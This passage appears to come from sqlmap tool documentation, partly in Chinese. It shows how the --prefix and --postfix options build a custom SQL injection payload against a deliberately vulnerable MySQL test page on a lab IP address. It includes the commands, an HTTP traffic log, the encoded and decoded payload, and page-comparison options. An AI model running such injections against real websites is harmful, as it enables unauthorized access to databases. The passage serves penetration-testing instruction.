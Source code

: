 Example on a MySQL 5.0.67 target on a page where the SQL query is: `$query = "SELECT * FROM users WHERE id=('" . $_GET['id'] . "') LIMIT 0, 1";`:

```
$ python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_str_brackets.php?id=1" -v 3 -p "id" --prefix "'" --postfix "AND 'test'='test"
```

```
[...]
[hh:mm:16] [INFO] testing sql injection on GET parameter 'id' with 0 parenthesis
[hh:mm:16] [INFO] testing custom injection on GET parameter 'id'
[hh:mm:16] [TRAFFIC OUT] HTTP request:
GET /sqlmap/mysql/get_str_brackets.php?id=1%27%29%20AND%207433=7433%20AND%20
%28%27test%27=%27test HTTP/1.1
Accept-charset: ISO-8859-15,utf-8;q=0.7,*;q=0.7
Host: 192.168.1.121:80
Accept-language: en-us,en;q=0.5
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,
image/png,*/*;q=0.5
User-agent: sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)
Connection: close
[...]
[hh:mm:17] [INFO] GET parameter 'id' is custom injectable
[...]
```

As you can see, the injection payload for testing for custom injection is:

```
id=1%27%29%20AND%207433=7433%20AND%20%28%27test%27=%27test
```

which URL decoded is:

```
id=1') AND 7433=7433 AND ('test'='test
```

and makes the query syntatically correct to the page query:

```
SELECT * FROM users WHERE id=('1') AND 7433=7433 AND ('test'='test') LIMIT 0, 1
```

In this simple example, sqlmap could detect the SQL injection and exploit it without need to provide a custom injection payload, but sometimes in the real world application it is necessary to provide it.

页面比较

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --string "luther" -v 1
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --regexp "<td>lu[\w][\w]er" -v
```

排除网站的内容

